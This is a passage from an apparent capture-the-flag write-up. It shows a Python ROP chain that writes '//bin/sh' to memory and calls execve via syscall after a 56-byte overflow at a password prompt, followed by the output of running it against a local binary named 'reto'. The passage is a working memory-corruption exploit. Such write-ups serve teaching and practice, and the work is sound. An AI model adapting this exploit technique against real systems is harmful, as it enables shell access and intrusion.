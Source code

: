 ```python

rop = b''
rop += rebase_0(0x0000000000008cab) # 0x0000000000408cab: pop r13; ret; 
rop += b'//bin/sh'
rop += rebase_0(0x00000000000022bf) # 0x00000000004022bf: pop rbx; ret; 
rop += rebase_0(0x00000000000cb0e0)
rop += rebase_0(0x0000000000070f22) # 0x0000000000470f22: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000008cab) # 0x0000000000408cab: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x00000000000022bf) # 0x00000000004022bf: pop rbx; ret; 
rop += rebase_0(0x00000000000cb0e8)
rop += rebase_0(0x0000000000070f22) # 0x0000000000470f22: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000001821) # 0x0000000000401821: pop rdi; ret; 
rop += rebase_0(0x00000000000cb0e0)
rop += rebase_0(0x00000000000766c6) # 0x00000000004766c6: pop rsi; ret; 
rop += rebase_0(0x00000000000cb0e8)
rop += rebase_0(0x000000000000176b) # 0x000000000040176b: pop rdx; ret; 
rop += rebase_0(0x00000000000cb0e8)
rop += rebase_0(0x000000000004e283) # 0x000000000044e283: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x000000000001c3fc) # 0x000000000041c3fc: syscall; ret;

payload = b'A' * 56
payload += rop

pp.sendlineafter(b'Password: ', payload)
pp.interactive()
```

And running it gave us a nice shell where we could grab the flag:

```shell
$ ./exploit.py
[*] 'reto'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './reto': pid 155588
[*] Switching to interactive mode

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xab\x8c@
 ---------------------------------------------------------------------------------------------------------
|   Due to GDPR policies we are going to store this sensitive information in our new imaginary database.   |
 ---------------------------------------------------------------------------------------------------------

Now, tell me what to do: 
---[1] Check balance
---[2] Buy Argentinian Flags
---[3] exit
```